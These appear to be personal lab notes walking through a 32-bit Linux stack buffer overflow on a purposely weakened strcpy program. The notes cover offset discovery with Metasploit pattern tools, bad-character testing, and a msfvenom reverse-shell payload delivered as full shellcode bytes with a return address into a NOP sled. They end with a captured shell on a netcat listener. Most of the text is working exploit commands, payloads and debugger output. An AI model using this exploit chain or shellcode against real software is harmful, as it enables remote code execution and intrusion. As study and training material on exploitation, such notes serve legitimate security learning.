




# Goal
Taking over EIP to hijack the control of the program

# Create The Challenge
## C Code
```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bowfunc(char *string) {

	char buffer[1024];
	strcpy(buffer, string);
	return 1;
}

int main(int argc, char *argv[]) {

	bowfunc(argv[1]);
	printf("Done.\n");
	return 1;
}
```

## Disable ASLR
```bash
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
root@nix-bow:/home/student# cat /proc/sys/kernel/randomize_va_space
```

## Compilation
```bash
student@nix-bow:~$ sudo apt install gcc-multilib
student@nix-bow:~$ gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32
student@nix-bow:~$ file bow32 | tr "," "\n"
```

## Creating Pattern using Metasploit
```bash
msf-pattern_create -l 1200
```


## GDB
```bash
$ calypse@fsociety [~/Downloads/htb-pwn-practice]: gdb -q .bow32
```

## Run The Pattern
```bash
run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9
```



## Find Out The Offset Value Using Metasploit
```bash
$ calypse@fsociety [/opt]: msf-pattern_offset -q i5Bi
[*] Exact match at offset 1036

```

## Overwrite EIP with Our Desired Value
First, kill the previous process
```bash
(gef) kill
```

```bash
run $(python -c "print('0'*1036+'A'*4)")
```



If we have trouble seeing EIP, run:
```bash
(gef) info registers eip
```

Congratulations, we have successfully taken over the control of EIP!


# Import Point to Consider
Since Python3, python encodes string to `UTF-8` format, which can mess up the payload during our buffer overflow testing. So there is an alternative to using `print()` and default python string:

```python
run $(python -c 'import sys; sys.stdout.buffer.write(b"\x55" * (1040 - 100 - 200 - 4) + b"\x90" * 100 + b"\x44" * 200 + b"\x66" * 4)')
```

## Break Down

| Buffer | NOP Slade | Payload | Return Address
| -- | -- | -- | -- |
| \x55 | \x90 | \x44 | \x66 |
| 736 | 100 | 200 | 4


# Example From HTB
```bash
gef➤  run $(python -c 'import sys; sys.stdout.buffer.write(b"\x55" * (1040 - 100 - 150 - 4) + b"\x90" * 100 + b"\x44" * 150 + b"\x66" * 4)')
```

## Output
```bash
$eip   : 0x66666666 ("ffff"?)
```

## Program Crash
```bash
[#0] Id 1, Name: "bow32", stopped 0x66666666 in ?? (), reason: SIGSEGV
```

## Insight
The payload works fine since the return address reflects the last 4 bytes we have sent (`b"\x66"*4`)

## Stack Layout

```C
gef➤  x/250xw $esp-1000 (Basically Start Reading from the address 1000 bytes higher than $esp)
	   | Examine Stack / 250 words(a unit made of 4 bytes) in hex format

			| Buffer Starts Here
0xffffc668:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc678:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc688:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc698:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6a8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6b8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6c8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6d8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6e8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc6f8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc708:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc718:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc728:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc738:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc748:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc758:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc768:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc778:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc788:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc798:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7a8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7b8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7c8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7d8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7e8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc7f8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc808:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc818:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc828:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc838:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc848:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc858:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc868:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc878:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc888:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc898:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8a8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8b8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8c8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8d8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8e8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc8f8:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc908:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc918:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc928:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc938:	0x55555555	0x55555555	0x55555555	0x55555555
0xffffc948:	0x55555555	0x55555555	0x90905555	0x90909090
										  | 0x55 Buffer Run Ends here (Right to Left(Little Endian) Reading might be a little weird)

0xffffc958:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffc968:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffc978:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffc988:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffc998:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffc9a8:	0x90909090	0x90909090	0x90909090	0x44449090
													  | NOP (0x90) Slade Ends Here
0xffffc9b8:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffc9c8:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffc9d8:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffc9e8:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffc9f8:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffca08:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffca18:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffca28:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffca38:	0x44444444	0x44444444	0x44444444	0x44444444
0xffffca48:	0x44444444	[[0x66666666]] <--- This is the Return Address
					  | 0x44 (Payload Ends Here)
```

## Visualization with A Picture



# Bad Char
## Char List
```python
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Now let's try to find out the bad chars

## Layout
```
Buffer = "\x55" * (1040 - 256 - 4) = 780
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

## GDB Command
```bash
run $(python -c "import sys; sys.stdout.buffer.write(b'\x55'*(1040-256-4)+b'\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'+b'\x66'*4)")
```

```bash
x/2000xb $esp+250
```

Taking a look at the layout, bad chars found:
```
0x00
0x09
0x0a
0x20
```

# Payload Creation
```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

## Layout
```
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

## Check Payload
```bash
 run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

We can successfully overwrite EIP with 0x66666666

# Find out The Return Address
Pick one from the NOP Slade

```
0xffffd07a
b'\x7a\xd0\xff\xff' (Reverse Order/Little Endian)
```

# Netcat Listener
```bash
nc -lvnp 31337
```

# Payload Delivery
```bash
run $(python -c "import sys; sys.stdout.buffer.write(b'\x55'*(1040 - 124 - 95 - 4) + b'\x90' * 124 + b'\xb8\xb3\x88\xe6\xd4\xdb\xd4\xd9\x74\x24\xf4\x5f\x33\xc9\xb1\x12\x31\x47\x12\x03\x47\x12\x83\x5c\x74\x04\x21\x93\x5e\x3e\x29\x80\x23\x92\xc4\x24\x2d\xf5\xa9\x4e\xe0\x76\x5a\xd7\x4a\x49\x90\x67\xe3\xcf\xd3\x0f\x8b\x2f\x24\xce\x1b\x32\x24\xaa\xb2\xbb\xc5\xfa\x23\xec\x54\xa9\x18\x0f\xde\xac\x92\x90\xb2\x46\x43\xbe\x41\xfe\xf3\xef\x8a\x9c\x6a\x79\x37\x32\x3e\xf0\x59\x02\xcb\xcf\x1a' + b'\x7a\xd0\xff\xff')")
```

# Output
```bash
$ calypse@fsociety [~/Downloads/htb-pwn-practice]: nc -lvnp 31337
listening on [any] 31337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42694
whoami
calypse
ls
bow.c
bow32
shellcode
echo "Muhahahahha I am a hacker"
Muhahahahha I am a hacker
```

Congratulations, we got a shell!


